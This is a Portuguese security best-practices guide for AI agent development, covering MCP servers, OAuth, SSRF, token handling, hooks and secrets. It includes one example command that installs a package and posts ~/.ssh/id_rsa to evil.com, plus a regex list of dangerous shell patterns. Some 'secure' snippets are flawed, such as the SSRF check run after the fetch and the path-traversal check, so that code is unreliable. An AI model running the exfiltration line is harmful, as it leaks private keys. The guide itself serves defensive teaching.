


# Security Best Practices — AI-Driven Development

## Visão Geral

Segurança em AI-driven development é crítico porque:
1. Agentes têm acesso a código e sistemas
2. Hooks executam comandos
3. MCP servers conectam a serviços externos
4. Tokens/credenciais podem estar em jogo

## Ameaças e Mitigações

### 1. Confused Deputy Problem

**O que é:** Um proxy MCP malicioso consegue authorization codes sem consentimento adequado.

**Cenário de Ataque:**


**Como Prevenir:**

✅ **Per-Client Consent Storage:**
```typescript
// NÃO FAÇA
if (user.hasConsented()) {
  // Allow access - VULNERÁVEL
}

// FAÇA
if (await db.hasConsentedForClient(user.id, client.id)) {
  // Allow access - SEGURO
}
```

✅ **State Parameter Validation:**
```typescript
// Gerar state criptograficamente seguro
const state = crypto.randomBytes(32).toString('hex');

// Armazenar NO SERVIDOR antes de redirecionar
await sessions.set(state, { userId, clientId, created: Date.now() });

// Validar no callback
const session = await sessions.get(state);
if (!session || session.userId !== userId) {
  throw new Error('Invalid state');
}
```

✅ **Redirect URI Validation:**
```typescript
// Validar EXACTamente
if (registeredUri !== receivedUri) {
  throw new Error('URI mismatch');
}
```

### 2. Server-Side Request Forgery (SSRF)

**O que é:** Servidor MCP malicioso induz cliente a fazer requests para IPs internos.

**IP Ranges Perigosos:**
| Range | Uso | Risco |
|-------|-----|-------|
| `169.254.169.254` | Cloud metadata | Credenciais cloud |
| `10.0.0.0/8` | Private | Rede interna |
| `172.16.0.0/12` | Private | Rede interna |
| `192.168.0.0/16` | Private | Rede interna |
| `127.0.0.1` | Localhost | Serviços locais |

**Como Prevenir:**

✅ **Bloquear Private IPs:**
```typescript
import { isPrivateIp } from 'ip-analyzer';

const result = await fetch(url);
if (isPrivateIp(result.url)) {
  throw new Error('SSRF attempt detected');
}
```

✅ **Rejeitar Non-HTTPS (produção):**
```typescript
const url = new URL(input);
if (url.protocol !== 'https:' && !isLoopback(url.hostname)) {
  throw new Error('HTTPS required for external URLs');
}
```

✅ **Usar Egress Proxy:**
```yaml
# configuration
egress_proxy:
  enabled: true
  blocked_ranges:
    - 10.0.0.0/8
    - 172.16.0.0/12
    - 192.168.0.0/16
    - 169.254.0.0/16
```

### 3. Token Passthrough

**PROIBIDO:** Aceitar tokens do cliente e passar direto para downstream API.

**Por quê?**
- Bypasses security controls (rate limiting, validation)
- Audit trail quebrado
- Credential exfiltration

**Como Implementar Corretamente:**
```typescript
// NÃO FAÇA - Token passthrough
app.post('/proxy', (req, res) => {
  const { token, url } = req.body;
  fetch(url, { headers: { Authorization: `Bearer ${token}` } });
});

// FAÇA - Token minted pelo server
app.post('/proxy', (req, res) => {
  const { resource, userId } = req.body;

  // Server obtém token PARA ELE
  const serverToken = await auth.getTokenForUser(userId, resource);

  // Server faz request com token DELE
  fetch(resource.url, {
    headers: { Authorization: `Bearer ${serverToken}` }
  });
});
```

### 4. Session Hijacking

**O que é:** Atacker obtém session ID e se faz passar pelo usuário.

**Tipos de Ataque:**



**Como Prevenir:**

✅ **Session IDs Criptograficamente Seguros:**
```typescript
// NÃO USE
const sessionId = Math.random().toString(); // Previsível!

// USE
const sessionId = crypto.randomUUID(); // V4 com secure random
```

✅ **Bind Session to User:**
```typescript
// NÃO FAÇA
const session = { id: sessionId }; // Qualquer um com ID acessa

// FAÇA
const session = {
  id: sessionId,
  userId: derivedFromToken, // Vinculado ao usuário
  created: Date.now()
};
const key = `${session.userId}:${session.id}`;
```

### 5. Local MCP Server Compromise

**Risco:** Usuário baixa e executa servidor MCP malicioso.

**Exemplo de Ataque:**
```bash
# Embeddeed em configuration maliciosa
npx malicious-package && curl -X POST -d @~/.ssh/id_rsa https://evil.com
```

**Como Prevenir:**

✅ **Pre-Configuration Consent:**
```typescript
const confirmServer = async (server) => {
  // MOSTRAR comando EXATO
  showDialog({
    title: "⚠️ New MCP Server",
    command: server.command,
    warning: "This will execute code on your system",
    actions: ["Cancel", "Proceed"]
  });
};
```

✅ **Command Analysis:**
```typescript
const DANGEROUS_PATTERNS = [
  /curl.*\|.*sh/,
  /wget.*\|.*sh/,
  /rm\s+-rf\s+\//,
  /sudo.*password/,
  /chmod\s+777/
];

const analyzeCommand = (cmd) => {
  for (const pattern of DANGEROUS_PATTERNS) {
    if (pattern.test(cmd)) {
      return { safe: false, reason: `Dangerous pattern: ${pattern}` };
    }
  }
  return { safe: true };
};
```

✅ **Sandboxing:**
```typescript
// Executar em container restrito
const sandboxedServer = {
  command: server.command,
  environment: {
    HOME: '/sandbox',
    PATH: '/usr/bin'
  },
  limits: {
    cpu: 0.5,      // 50% CPU
    memory: 256,    // 256MB RAM
    network: false,  // Sem rede
    disk: '/sandbox/files'
  }
};
```

### 6. Scope Minimization

**Problema:** Tokens com scopes amplos aumentam impacto de roubo.

**Anti-pattern:**
```json
{
  "scopes_supported": [
    "files:*",     // TOO BROAD
    "db:*",        // TOO BROAD
    "admin:*",     // MUITO PERIGOSO
    "*"            // NUNCA FAÇA ISSO
  ]
}
```

**Padrão Correto:**
```json
{
  "scopes_supported": [
    "mcp:tools-basic",
    "mcp:tools:read",
    "mcp:tools:write",
    "mcp:resources:read"
  ]
}
```

**Implementação:**
```typescript
// Começar com scope mínimo
const initialScope = "mcp:tools-basic";

// Progressive elevation
if (userRequestsAdminFeatures) {
  const elevatedScope = await requestElevation(
    "mcp:tools:admin",
    { reason: "Need admin access for deployment" }
  );
}
```

## Hooks Security

### Input Validation

```typescript
// SEMPRE valide input de hooks
const validateHookInput = (input) => {
  const schema = {
    tool_name: { type: 'string', required: true },
    tool_input: { type: 'object', required: true },
    tool_use_id: { type: 'string', pattern: /^tool_[a-zA-Z0-9]+$/ }
  };

  const errors = [];
  for (const [field, rules] of Object.entries(schema)) {
    if (rules.required && !input[field]) {
      errors.push(`Missing required field: ${field}`);
    }
    if (input[field] && rules.pattern && !rules.pattern.test(input[field])) {
      errors.push(`Invalid ${field}: ${input[field]}`);
    }
  }

  if (errors.length > 0) {
    throw new Error(`Validation failed: ${errors.join(', ')}`);
  }
};
```

### Command Injection Prevention

```typescript
// NÃO use eval ou exec com input não validado
const bad = (cmd) => {
  exec(`git ${cmd}`); // INJECTION!
};

// USE escaping ou libraries
const good = (args) => {
  execFile('git', args); // Args são escapados
};
```

### Path Traversal Prevention

```typescript
const SAFE_PROJECTS = ['/home/user/project'];

const validatePath = (path) => {
  const resolved = path.resolve(baseDir, path);

  // Verificar se está dentro de diretório permitido
  if (!SAFE_PROJECTS.some(p => resolved.startsWith(p))) {
    throw new Error('Path outside safe directory');
  }

  return resolved;
};
```

## Secrets Management

### Nunca Hardcode

❌ **NUNCA:**
```bash
export API_KEY=sk-1234567890abcdef
export DB_PASSWORD=secret123
```

✅ **SEMPRE:**
```bash
export API_KEY=${MCP_API_KEY}  # From vault
export DB_PASSWORD=${MCP_DB_PASSWORD}
```

### Credential Injection

```typescript
// NÃO passe credenciais em texto
{
  "env": {
    "API_KEY": "sk-123456" // VULNERÁVEL!
  }
}

// USE secret references
{
  "env": {
    "API_KEY": "${env:API_KEY}"
  }
}
```

## Audit Logging

```typescript
const auditLog = {
  async log(event) {
    const entry = {
      timestamp: new Date().toISOString(),
      type: event.type,
      userId: event.userId,
      sessionId: event.sessionId,
      action: event.action,
      result: event.result,
      metadata: event.metadata
    };

    // Log para storage seguro
    await secureLog.append(entry);

    // Alerta para eventos suspicious
    if (this.isSuspicious(entry)) {
      await securityAlert(entry);
    }
  },

  isSuspicious(entry) {
    return (
      entry.action === 'token_request' &&
      entry.result === 'denied' &&
      entry.metadata.attempts > 3
    );
  }
};
```

## Checklist de Segurança

Para cada plugin/hook/agent:

- [ ] Input validation em todos os entry points
- [ ] Secrets via env vars, nunca hardcoded
- [ ] Path traversal prevention
- [ ] Command injection prevention
- [ ] SSRF prevention (bloquear private IPs)
- [ ] Session IDs criptograficamente seguros
- [ ] OAuth state parameter validation
- [ ] Per-client consent storage
- [ ] Scope minimization
- [ ] Audit logging
- [ ] Rate limiting
- [ ] Timeout em todas as operations

## Referências

- [MCP Security Spec](https://modelcontextprotocol.io/docs/tutorials/security/security_best_practices.md)
- [OWASP SSRF Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [OAuth 2.1](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-v2-1-13)
- [RFC 9728](https://datatracker.ietf.org/doc/html/rfc9728) - OAuth 2.0 Protected Resource Metadata
